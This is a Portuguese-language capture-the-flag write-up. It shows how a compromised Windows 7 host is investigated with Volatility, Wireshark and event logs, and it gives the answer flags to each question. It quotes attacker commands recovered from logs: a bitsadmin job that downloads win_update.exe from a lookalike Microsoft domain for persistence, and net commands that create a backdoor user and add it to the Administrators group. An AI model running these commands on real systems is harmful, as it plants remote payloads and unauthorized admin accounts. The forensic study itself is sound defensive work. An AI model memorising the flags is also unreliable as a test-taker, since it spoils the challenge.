

## D3 - Compromised Host Investigation Challenge

### Investigação - 1
Sabemos que os terroristas se aproveitaram de uma vulnerabilidade para comprometer uma máquina. Ardilosamente, criaram usuários, acessaram urls que mantinham a persistência de conexão no dispositivo e saíram gerando prejuízos!

Sistemas Operacionais possuem formas diferentes de gerenciamento e armazenamento de memória. Para que o volatility consiga funcionar corretamente é necessário incluir o profile da máquina utilizada.

Identifique qual profile deve ser utilizado no volatility para ser o mais compatível com o sistema operacional, arquitetura e build do dump de memória disponibilizado.

Se o profile for **OS9XP2x43**, a flag terá o seguinte formato: `YSH{OS9XP2x43}`

**Dica:** Se tiver dificuldade em saber o Sistema Operacional, talvez seja interessante procurar qual o Service Pack do SO antes.

#### Investigação - Resolução - 1
Uma vez baixado os arquivos, a primeira coisa necessário a se fazer é extrair os arquivos e depois disso comparar os hashes para garantir a integridade dos arquivos

```shell
sha1sum eventviewer.txt memory.dump netmon.pcapng
```

```
36d73242023136ee4a8e36316fe537541609f96f  eventviewer.txt
819063eeac96fca6d69d94ef68cc2887399a38da  memory.dump
849a517f198aa682a2cf943fb1e849b416d9bb69  netmon.pcapng
```

Logo em seguida vamos investigar o arquivo memory.dump para extrair informações do Sistema Operacional e Service Pack. A principio podemos executar o seguinte comando dentro da pasta do volatility:

```shell
python vol.py -f memory.dump imageinfo
``` 

```
Volatility Foundation Volatility Framework 2.6.1
INFO    : volatility.debug    : Determining profile based on KDBG search...
          Suggested Profile(s) : Win7SP1x64, Win7SP0x64, Win2008R2SP0x64, Win2008R2SP1x64_24000, Win2008R2SP1x64_23418, Win2008R2SP1x64, Win7SP1x64_24000, Win7SP1x64_23418
                    AS Layer1 : WindowsAMD64PagedMemory (Kernel AS)
                    AS Layer2 : FileAddressSpace (/home/vlima/ysh/host_compromised/memory.dump)
                     PAE type : No PAE
                          DTB : 0x187000L
                         KDBG : 0xf80002a46120L
          Number of Processors : 2
    Image Type (Service Pack) : 1
                KPCR for CPU 0 : 0xfffff80002a48000L
                KPCR for CPU 1 : 0xfffff880009ea000L
             KUSER_SHARED_DATA : 0xfffff78000000000L
           Image date and time : 2022-08-27 20:34:48 UTC+0000
     Image local date and time : 2022-08-27 17:34:48 -0300
```


Como saída do comando já recebemos algumas sugestões de quais profiles são mais adequados ao dump de memória. Para confirmarmos qual é a o profile especifico que estamos procurando podemos executar o comando psscan dentro do volatility, uma vez que ele só vai trazer informações de processo correto uma vez utilizarmos o profile correto:

Usando um profile incorreto temos um output vazio

```shell
python vol.py -f ~/ysh/host_compromised/memory.dump --profile Win7SP1x64_23418 psscan
``` 

```
Volatility Foundation Volatility Framework 2.6.1
Offset(P)          Name                PID   PPID PDB                Time created                   Time exited
------------------ ---------------- ------ ------ ------------------ ------------------------------ ------------------------------
```

Usando o profile correto temos output do comando:

```shell
python vol.py -f ~/ysh/host_compromised/memory.dump --profile Win7SP1x64_24000 psscan
```

```
Volatility Foundation Volatility Framework 2.6.1
Offset(P)          Name                PID   PPID PDB                Time created                   Time exited
------------------ ---------------- ------ ------ ------------------ ------------------------------ ------------------------------
0x0000000001444540 chrome.exe         2744   2624 0x0000000044f0f000 2022-08-27 20:33:12 UTC+0000                                 
0x0000000002f97b00 cmd.exe            3308   2448 0x00000000ae5c1000 2022-08-27 20:34:15 UTC+0000                                 
0x00000000070cd040 System                4      0 0x0000000000187000 2022-08-27 20:27:30 UTC+0000                                 
0x000000000713c3a0 GoogleCrashHan     2568   2416 0x00000000a2fef000 2022-08-27 20:28:03 UTC+0000                                 
0x000000000713db00 GoogleCrashHan     2548   2416 0x00000000a2a26000 2022-08-27 20:28:03 UTC+0000                                 
0x000000000a7c8b00 cmd.exe            3308   2448 0x00000000ae5c1000 2022-08-27 20:34:15 UTC+0000                                 
0x000000003408eb00 cmd.exe            3308   2448 0x00000000ae5c1000 2022-08-27 20:34:15 UTC+0000                                 
0x00000000b9398700 TrustedInstall     3892    484 0x00000000b9481000 2022-08-27 20:30:32 UTC+0000                                 
0x00000000c0ad0540 cmd.exe            3076   1328 0x0000000011c0e000 2022-08-27 20:31:23 UTC+0000                                 
0x00000000c2d52540 SearchFilterHo     3300   2844 0x000000001514b000 2022-08-27 20:33:38 UTC+0000                                 
0x00000000c8b28b00 mmc.exe            3764   2448 0x00000000781df000 2022-08-27 20:35:01 UTC+0000                                 
0x00000000ce175b00 winpmem_mini_x     2760   3308 0x000000006b52f000 2022-08-27 20:34:47 UTC+0000                                 
0x00000000d2780540 cmd.exe            3076   1328 0x0000000011c0e000 2022-08-27 20:31:23 UTC+0000                                 
0x00000000d4829540 SearchFilterHo     3300   2844 0x000000001514b000 2022-08-27 20:33:38 UTC+0000                                 
0x0000000119634b00 dllhost.exe        3856    672 0x000000005d56c000 2022-08-27 20:34:15 UTC+0000   2022-08-27 20:34:20 UTC+0000  
0x000000011b0adb00 taskmgr.exe        3188    520 0x0000000111616000 2022-08-27 20:30:04 UTC+0000                                 
0x000000011c4f2b00 conhost.exe        1012    444 0x0000000071706000 2022-08-27 20:34:15 UTC+0000                                 
0x000000011c65e060 Wireshark.exe       888   2448 0x000000009431d000 2022-08-27 20:28:43 UTC+0000                                 
0x000000011c899b00 wmpnetwk.exe       2940    484 0x000000009e5e7000 2022-08-27 20:28:09 UTC+0000                                 
0x000000011c8d25f0 conhost.exe        3092    380 0x00000000bb2a2000 2022-08-27 20:31:23 UTC+0000                                 
0x000000011c8d7150 chrome.exe         3880   2624 0x0000000058608000 2022-08-27 20:33:13 UTC+0000                                 
0x000000011c93a5c0 svchost.exe        1976    484 0x000000009bea3000 2022-08-27 20:28:10 UTC+0000                                 
0x000000011cafab00 dwm.exe            2424    960 0x00000000a55f7000 2022-08-27 20:28:03 UTC+0000                                 
0x000000011cb20b00 explorer.exe       2448   2392 0x00000000a4fd9000 2022-08-27 20:28:03 UTC+0000                                 
0x000000011cbb6b00 VBoxTray.exe       2660   2448 0x00000000a1c32000 2022-08-27 20:28:03 UTC+0000                                 
0x000000011cc7a4f0 svchost.exe        1556    484 0x0000000036e22000 2022-08-27 20:27:42 UTC+0000                                 
0x000000011cc7db00 Sysmon.exe         1636    484 0x0000000036918000 2022-08-27 20:27:42 UTC+0000                                 
0x000000011cd7fb00 unsecapp.exe       1912    672 0x00000000a5a81000 2022-08-27 20:27:43 UTC+0000                                 
0x000000011ce64b00 svchost.exe         848    484 0x0000000042afd000 2022-08-27 20:27:40 UTC+0000                                 
0x000000011ce7bb00 svchost.exe         960    484 0x00000000410d0000 2022-08-27 20:27:40 UTC+0000                                 
0x000000011cee4290 svchost.exe         392    484 0x00000000403a3000 2022-08-27 20:27:40 UTC+0000                                 
0x000000011ceef770 svchost.exe         892    484 0x000000003eeea000 2022-08-27 20:27:40 UTC+0000                                 
0x000000011cef1060 chrome.exe          896   2624 0x000000008e1bf000 2022-08-27 20:33:15 UTC+0000                                 
0x000000011cef4b00 audiodg.exe         340    848 0x000000003fc55000 2022-08-27 20:27:40 UTC+0000   2022-08-27 20:33:04 UTC+0000  
0x000000011cf4c440 svchost.exe        1156    484 0x000000003d7d3000 2022-08-27 20:27:41 UTC+0000                                 
0x000000011cfb97e0 spoolsv.exe        1328    484 0x000000003a063000 2022-08-27 20:27:41 UTC+0000                                 
0x000000011cfcb440 taskeng.exe        1352    392 0x000000003a218000 2022-08-27 20:27:41 UTC+0000                                 
0x000000011cfd90d0 taskhost.exe       2328    484 0x000000002c151000 2022-08-27 20:28:02 UTC+0000                                 
0x000000011cfe34b0 svchost.exe        1408    484 0x000000003887d000 2022-08-27 20:27:42 UTC+0000                                 
0x000000011e024b00 svchost.exe         672    484 0x000000003b080000 2022-08-27 20:27:39 UTC+0000                                 
0x000000011e07d060 VBoxService.ex      736    484 0x0000000044fdd000 2022-08-27 20:27:40 UTC+0000                                 
0x000000011e093860 svchost.exe         792    484 0x0000000043f71000 2022-08-27 20:27:40 UTC+0000                                 
0x000000011e27a060 csrss.exe           444    432 0x0000000040c80000 2022-08-27 20:27:38 UTC+0000                                 
0x000000011e37c060 csrss.exe           380    368 0x000000004c275000 2022-08-27 20:27:38 UTC+0000                                 
0x000000011e3dd510 winlogon.exe        520    432 0x00000000492c6000 2022-08-27 20:27:39 UTC+0000                                 
0x000000011e3e2590 lsass.exe           528    424 0x0000000048d1f000 2022-08-27 20:27:39 UTC+0000                                 
0x000000011e3e3290 lsm.exe             536    424 0x000000004962f000 2022-08-27 20:27:39 UTC+0000                                 
0x000000011e450600 dumpcap.exe        1544    888 0x00000000819a8000 2022-08-27 20:29:09 UTC+0000   2022-08-27 20:33:17 UTC+0000  
0x000000011e451b00 SearchIndexer.     2844    484 0x00000000a7b0f000 2022-08-27 20:28:09 UTC+0000                                 
0x000000011e452b00 WmiPrvSE.exe       2052    672 0x000000003271e000 2022-08-27 20:27:45 UTC+0000                                 
0x000000011e455b00 GoogleUpdate.e     2416   1352 0x00000000a4b5f000 2022-08-27 20:28:02 UTC+0000                                 
0x000000011e614710 svchost.exe         252    484 0x00000000a771b000 2022-08-27 20:27:40 UTC+0000                                 
0x000000011e72db00 chrome.exe         2924   2448 0x0000000096ab0000 2022-08-27 20:29:14 UTC+0000   2022-08-27 20:29:48 UTC+0000  
0x000000011e7bcb00 services.exe        484    424 0x000000004bfa5000 2022-08-27 20:27:39 UTC+0000                                 
0x000000011eed31f0 smss.exe            288      4 0x0000000088330000 2022-08-27 20:27:30 UTC+0000                                 
0x000000011ef54060 wininit.exe         424    368 0x000000004b5bd000 2022-08-27 20:27:38 UTC+0000                                 
0x000000011f43cb00 audiodg.exe        3048    848 0x00000000aa877000 2022-08-27 20:34:14 UTC+0000                                 
0x000000011fca2790 sppsvc.exe         2948    484 0x000000001c5d5000 2022-08-27 20:29:45 UTC+0000                                 
0x000000011fd1b060 SearchProtocol      916   2844 0x0000000017208000 2022-08-27 20:33:38 UTC+0000                                 
0x000000011fd3a060 chrome.exe         2304   2624 0x0000000093953000 2022-08-27 20:33:22 UTC+0000                                 
0x000000011fd88060 chrome.exe         2692   2624 0x0000000033630000 2022-08-27 20:33:14 UTC+0000                                 
0x000000011fe083c0 svchost.exe        1704    484 0x000000005a8d2000 2022-08-27 20:33:45 UTC+0000                                 
0x000000011fe6cb00 chrome.exe         3672   2624 0x00000000d55ef000 2022-08-27 20:35:27 UTC+0000   2022-08-27 20:35:31 UTC+0000  
0x000000011fe90060 chrome.exe         2624   2448 0x000000003f26e000 2022-08-27 20:33:10 UTC+0000                                 
0x000000011ff03b00 dumpcap.exe        2928    888 0x0000000082c52000 2022-08-27 20:28:50 UTC+0000   2022-08-27 20:28:50 UTC+0000  
0x000000011ffa3840 chrome.exe         3448   2624 0x0000000036f5b000 2022-08-27 20:33:19 UTC+0000                                 
0x000000011fff0b00 chrome.exe         3500   2624 0x0000000010fc4000 2022-08-27 20:33:10 UTC+0000      

```

Neste caso a flag correta do desafio é `YSH{Win7SP1x64_24000}`

### Investigação - 2
Informe o IP do atacante e em qual porta ele conectou para conseguir reverse shell na máquina vítima.

Se a resposta for o IP 1.1.1.1 e porta 2222, a flag terá o seguinte formato: `YSH{1.1.1.1,2222}`

#### Investigação - Resolução - 2

Para iniciarmos com esse desafio será necessário utilizar o wireshark de modo a identificar o trafego de rede no momento do ataque. Para isto basta digitar o seguinte comando em uma máquina que possua o wireshark instalado:

````shell
wireshark netmon.pcapng
````

Uma das maneira onde podemos conseguir visualizar para qual dispositivo conseguimos acesso a reverse shell é através do search strings do Wireshark, buscando a string "_This program cannot be run in DOS mode_" como demonstrado na imagem abaixo:



Isso significa que executado um arquivo da vitima usando um arquivo binário windows executavel. Olhando mais precisamente em qual host e porta de destino, temos: IP - 192.168.15.18 com a porta 1234

Temos então nossa flag: `YSH{192.168.15.18,1234}`

### Investigação - 3
Insira a CVE associada com a vulnerabilidade que foi explorada.

Dica: talvez seja necessário olhar a versão do sistema operacional e o protocolo explorado pelo atacante para identificar a CVE.

Se a resposta for CVE-9999-9999 a flag terá o formato: `YSH{CVE-9999-9999}`

#### Investigação - Resolução - 3
Para determinar qual a vulnerabilidade que foi explorada precisamos primeiro entender o contexto do ataque olhando para as flags que obtemos até o momento:

Windows 7 SP1 64 bits e a exploração aconteceu na porta 3389 (RDP) de acordo com a imagem da flag anterior. Buscando no google por exploits publicos que exploram essa versão de Sistema Operacional e nessa porta chegamos usando o seguinte termo `cve windows 7 rdp rce`, chegamos no resultado:

CVE-2019-0708

A flag então é `YSH{CVE-2019-0708}`

### Investigação - 4
Informe o nome da campanha de ataques utilizando a CVE identificada.

Utilize a informação e dica do challenge anterior para encontrar essa flag.

Formado da flag: `YSH{CAMPANHA}`

#### Investigação - Resolução - 4
Buscando a propria CVE no google conseguimos encontra diversas referencias a campanha comumente chamada de BlueKeep, 
sendo assim a flag resultante é: `YSH{BLUEKEEP}`

### Investigação - 5
Foi detectado no processo de post-exploitation a execução de persistência para acesso na máquina. Identifique a URL usada para callback pela máquina vítima.

Se a resposta for `http://sitemalicioso/arquivomalicioso` a flag terá o seguinte formato: `YSH{http://sitemalicioso/arquivomalicioso}`

#### Investigação - Resolução - 5
Iniciando a investigação aos logs do arquivo chamado eventviewer.txt podemos executar inicialmente um grep afim de encontrar alguma coisa suspeita dentro desses logs:

```shell
grep 'http' eventviewer.txt
```

Com isso podemos notar uma linha contendo a seguinte informação:

```
String: 11               : bitsadmin  /Addfile win_download_update <https://microsoft.windowssafetyupdatexyz.
xyz/win_update.exe> C:\updates\win_update.exe
```

O dominio em questão muito suspeito esta efetuando uma operação de persistencia utilizando o comando bits do windows. 
Neste caso a flag é: `YSH{https://microsoft.windowssafetyupdatexyz.xyz/win_update.exe}`

### Investigação - 6
Aponte o caminho completo do arquivo salvo e executado local para acesso a shell do atacante.

Se a resposta for X:\diretorio1\diretorio2\arquivo.xxx o formato da flag será: `YSH{X:\diretorio1\diretorio2\arquivo.xxx}`

#### Investigação - Resolução - 6
Na propria resolução da flag acima já temos o comando executado contendo o diretório que for armazenado o arquivo malicioso:

`YSH{C:\updates\win_update.exe}`

### Investigação - 7
Indique o último comando executado pelo atacante para executar a persistência.

Se a resposta for "comando parametro1 parametro2" a flag terá o seguinte formato: `YSH{comando parametro1 parametro2}`

#### Investigação - Resolução - 7
Para isto podemos abrir o arquivo `eventviewer.txt` em algum editor de texto e localizar a execução do comando bits. Seguindo os traços conseguimos determinar que o ultimo comando executado para manter persistencia pelo atacante foi

```
bitsadmin  /Resume win_download_update
```

Sendo assim temos a flag: `YSH{bitsadmin  /Resume win_download_update}`

### Investigação - 8
Após a exploração da vulnerabilidade, o atacante criou um usuário na máquina. Aponte o nome desse usuário.

Se a resposta for "usuarioxyz" o formato esperado da flag será: `YSH{usuarioxyz}`

#### Investigação - Resolução - 8
A criação de usuário em ambiente windows normalmente são feitos atraves do comando `net user USUARIO SENHA /add` com isso, podemos buscar a utilização do comando net pelos logs do eventviewer:

```shell
grep 'net' eventviewer.txt
``` 

Then we can see in the final of the log file this line:

```
String: 11               : net  user backup P@ssw0rd1 /ADD
```

A flag que temos é a seguinte: `YSH{backup}`

### Investigação - 9
Liste os grupos em que o atacante incluiu o novo usuário criado, organizando-os em ordem alfabética.

Se a resposta for GrupoA, GrupoC, GrupoB e GrupoD o formato esperado da flag será: YSH{GrupoA, GrupoB, GrupoC, GrupoD}

#### Investigação - Resolução - 9
Seguindo na mesma abordagem da flag anterior vamos procurar o comando de que adiciona o usuário nos grupos, no caso é `net localgroup`. Com isso podemos buscar apenas por referencias do comando localgroup nos logs conforme abaixo:

```shell
grep 'localgroup' eventviewer.txt
``` 

```
String: 11               : net  localgroup Administradores backup /ADD
String: 11               : C:\Windows\system32\net1  localgroup Administradores backup /ADD
String: 22               : net  localgroup Administradores backup /ADD
String: 11               : net  localgroup Usuarios backup /ADD
String: 11               : C:\Windows\system32\net1  localgroup Usuarios backup /ADD
String: 22               : net  localgroup Usuarios backup /ADD
String: 11               : net  localgroup IIS_IUSRS backup /ADD
String: 11               : C:\Windows\system32\net1  localgroup IIS_IUSRS backup /ADD
String: 22               : net  localgroup IIS_IUSRS backup /ADD
```

Organizando os grupos em ordem alfabética temos o seguinte resultado da flag: `YSH{Administradores, IIS_IUSRS, Usuarios}`

### Investigação - 10
A partir da persistência criada pelo usuário, identificamos que o processo `taskmgr.exe` é o responsável por manter a conexão reversa rodando. Liste os processos e identifique qual é o Process ID (PID) do processo `taskmgr.exe`.

Se a resposta for 99 o formato esperado da flag será: `YSH{99}`

#### Investigação - Resolução - 10
Para conseguirmos informação sobre o PID será necessário executar o comando psscan através do volatility. Podemos já usar o grep pra filtrar o resultado apenas para encontra o processo relacionado ao `taskmgr`, conforme apresentado a seguir:

```shell
python vol.py -f ~/ysh/host_compromised/memory.dump --profile Win7SP1x64_24000 psscan | grep taskmgr
```

```
Volatility Foundation Volatility Framework 2.6.1
0x000000011b0adb00 taskmgr.exe        3188    520 0x0000000111616000 2022-08-27 20:30:04 UTC+0000
```

No final temos nossa flag final sendo: `YSH{3188}`